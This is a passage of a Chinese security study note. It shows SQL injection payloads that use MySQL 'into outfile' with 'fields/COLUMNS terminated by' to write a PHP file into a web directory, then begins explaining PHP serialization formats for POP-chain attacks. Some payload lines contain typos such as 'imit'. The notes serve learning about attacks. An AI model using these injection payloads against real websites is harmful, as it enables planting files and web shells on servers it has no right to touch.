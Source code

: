 

fields terminated by 写入

?id=1’ into outfile ‘C:/www/info.php’ fields terminated by ‘<?php phpinfo();?>’#

?id=1’ imit 1 into outfile ‘C:/www/info.php’ fields terminated by ‘<?php phpinfo();?>’#



注入原理

fields terminated by xx可以理解为 以每个字段的位置添加 xx 内容。



COLUMNS terminated by 写入

?id=1’ into outfile ‘C:/www/info.php’ COLUMNS terminated by ‘<?php phpinfo();?>’#

?id=1’ imit 1 into outfile ‘C:/www/info.php’ COLUMNS terminated by ‘<?php phpinfo();?>’#



注入原理

COLUMNS terminated by xx可以理解为以每列的位置添加 xx 内容。

### pop链构造

#### 序列化与反序列化

 将信息转变成便于储存和传输的过程的状态叫做序列化，逆过程就叫做反序列化

##### 基本序列化方法

value的即为需要序列化的数据的值

| 数据类型          | 基本格式                      | 实例                                   |
| ----------------- | ----------------------------- | -------------------------------------- |
| 布尔型（bool）    | b:value                       | b:1                                    |
| 整数型(int)       | i:value                       | i:1                                    |
| 字符串型（str）   | s:length:"value"              | s:4:"aaaa"                             |
| 数组型（array）   | a:<length>:{key,value pairs}; | a:1:{i:1;s:1:"a"}(i=1即array内部的元素 |
| 对象型（Objiect） | O:<class_name_length>:{}      |                                        |
| NULL型            |                               | N                                      |

例如，只设置了name这个变量，name没有值，则序列化结果为 s:4:"name";N;

如果name设置了值，那么N转变为值的类型的序列化

如

$name=114   序列化的结果为 s:4:"name";i:114;

$name= "114"   序列化的结果为 s:4:"name";s:3:"114" 

##### 基本例子

